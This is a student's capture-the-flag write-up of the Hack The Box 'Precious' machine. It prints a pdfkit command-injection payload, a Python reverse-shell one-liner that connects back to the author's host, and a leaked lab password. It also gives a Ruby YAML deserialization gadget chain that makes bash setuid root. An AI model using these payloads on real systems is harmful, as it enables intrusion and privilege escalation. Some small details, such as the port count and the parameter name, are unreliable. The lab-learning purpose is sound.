






Writeup: Precious
EASY machine (hackthebox.com)
by Sylvain "JavaliMZ" Júlio - 30/12/2022
Introduction
This writeup was made for 2 purposes. Normally, my writeups are in Portuguese, but this time, I do it in English because I am in a Cyber Security degree, and I need to do an assignment for English class in the 2022 winter break. The assignment was to summarize and explain 3 good articles about something I like, but I didn't know what to choose, so I decided to make the "Precious" machine from HTB and read some articles about the machine's vulnerabilities. Also, teacher Maria's goal is to keep us interested and active in English, so I think I'm respecting the global rules =).
For this time, I don't go to talk about possible ways to find something or explain different stuffs that not in the machine, because it's already a lot of work write and think in English. I just go to talk about the machine and the way to get Administrator of the machine, and only that.
I try to do a lot of analogies to the real world for my teacher don't get too lost xD. I will try to do my best
Enumeration
Like every machine, we need to know where to get in. HTB give us the IP address but, we don't know nothing more. The IP address is like an address of a house, but we need to figure out what doors is open to get in. In a machine, the doors are called "Ports" (in reference to the ports of ships that allow the arrival of goods from the outside world). They are always 65355 ports in all machines. It is a lot!! But we are not knock on all the ports manually... For that we have a tool called nmap.
First, we need to confirm that we can reach the IP:
ping -c 1 10.10.11.189
# PING 10.10.11.189 (10.10.11.189) 56(84) bytes of data.
# 64 bytes from 10.10.11.189: icmp_seq=1 ttl=63 time=72.5 ms
# --- 10.10.11.189 ping statistics ---
# 1 packets transmitted, 1 received, 0% packet loss, time 0ms
# rtt min/avg/max/mdev = 72.530/72.530/72.530/0.000 ms
We send a ICMP packet, and the target machine send it back. With the ping command (like ping pong), we know the machine is alive and we can start scanning the ports. We noticed one more thing with ping command. The result gives us TTL (Time to Live) and refers to the number of hops that a packet is allowed to make before it is discarded. When a packet run through the Internet, every time this packet passes through a router, the router decrements this value by 1. For Windows, TTL starts at 128, and for Linux, TTL starts at 64. We can use this information by approximation to know the Operating System of the target machine. In this case, is likely a Linux machine. It is important for future commands on the target machine.

With the response of the big nmap command, we know that on the target machine, we got 2 ports open: port 22 and port 80. Normally, port 22 is for a server SSH and the port 80 is for a Web Server. The server SSH is a remote secure shell, for connect my command line with the machine when we connect in with the right credentials. We don't have any credentials so we can't do nothing here. We just have one more port. The Web Server.
Before we start locking the Website, we can do a more powerful scan, with nmap too.

This new command gives us more information. The Webserver redirect us to http://precious.htb/, but that Website don't exist. We know the site is on this IP but the Webserver want us to get in by the URL http://precious.htb/. We can do that by saying to our machine that the URL http://precious.htb/ correspond to the IP of the target machine. For that, we can edit as root (Super User) the file /etc/hosts and add the line:
echo "10.10.11.189\tprecious.htb" >> /etc/hosts
Now, we can access the Website:

It is a website to convert Websites to PDF. We can do some basic tests to get more information about the Website. We can try to serve a Webserver and enter the new URL to see what happens:
python -m http.server 80
This is a really simple Webserver, but it is enough for us. We can enter our URL (http://10.10.14.144/) to our Webserver and see what happens:

We can see that the Website download a PDF file. Visually, it is just a simples PDF. But if we use a tool like exiftool to see the metadata of the PDF, we can see more...

Exploit - Remote Code Execution
We can see that the PDF Creator is a tool called pdfkit v0.8.6. This version is vulnerable and we got a RCE (Remote Code Execution). We can see more about this vulnerability here. To exploit this vulnerability, it is simple! We just need to add to the URL a param called ?user and give a "space" but encoded (a space like %20 is the URL code for a space of the space bar). Next, we need to concatenate a bash code (because is a Linux Machine) with the special symbol ` around the code for execute it like if we are in a command line shell. The command we will try is a single ping to our machine. The final URL will be:
http://10.10.14.144/?name=%20
ping -c 1 10.10.14.144
# Set up a listener to capture the ping
sudo tcpdump -i tun0 icmp
We got a ping back! I also create a tiny script in Python to have a fast way to try remote code execution:
import requests
while True:
cmd = input("[fAkeSh3ll ~] > ")
data = {
'url': f"http://10.10.14.144/?name=%20`{cmd}`",
}
response = requests.post('http://precious.htb/', data=data, verify=False)
Now, we can try to get a reverse shell. A reverse shell is a type of connection to get a shell in the target machine. But the way we got this is tricky. We need to find a way to the target machine send is own shell to our machine. Is like we try to enter in a house, and we need to find a way that the house open his own door to give us the access... The command worked on the machine was this:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
So, if we want to do that on the Website, we need to send this url:
http://10.10.14.144/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.144",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
The query needs to be that exact and we need to adapt the IP and the port, and we need to setup a listener to capture the shell.

Foothold
We are in the machine. But we have low privilege. We need more!! HUAAHAHA
Digging through the folders and files, we'll find credentials for a service used by the user henry.

And like 99,9% of people, we can try if the user henry has the same password for is user account. And it works!
su henry
# Q3c1AqGHtoI0aXAYFH
Privilege Escalation
We got a little more privileges. But it is not enough!! WE NEED MORE AGAIN!!!!

The sudo command is a command to execute another command as root privileges. And sudo -l inform us that the user henry can execute /usr/bin/ruby /opt/update_dependencies.rb as root. When we examine the update_dependencies.rb file, we realize that the script use "YAML.load" to load that file. That means the file will be deserialized. deserialization is like converting the syntax of the content of the file into object in ruby (in this case). But like in a lot of languages, deserialization can be dangerous... And in this case, we can create our own YAML file to execute a command as root. We can find a good article here but for python, and here in ruby. But the code we will use is here.

We just create a file caller test.txt for confirm that the code is working. And it works! We can execute command as root. Now, we need a way to get root shell. They are so many ways, but I like this one: I will change permissions on the /usr/bin/bash program to execute it as the owner of the program. The owner of the program is root. So, if we execute the program, we will get a root shell. The code we will use is:
---
- !ruby/object:Gem::Installer
i: x
- !ruby/object:Gem::SpecFetcher
i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: chmod +s /usr/bin/bash
method_id: :resolve
Now, we just need to execute the sudo command, and the bash program will be altered. And we can execute bash as root with a special flag:
sudo /usr/bin/ruby /opt/update_dependencies.rb
bash -p

Conclusion
This machine was easy to get in, and the privilege escalation was a little more complex. But it was a good machine to learn more about Ruby and YAML. I hope you enjoyed this writeup. Fun fact: the machine is called Precious because it is a reference to the ruby programming language. Both vulnerabilities are related to the ruby language.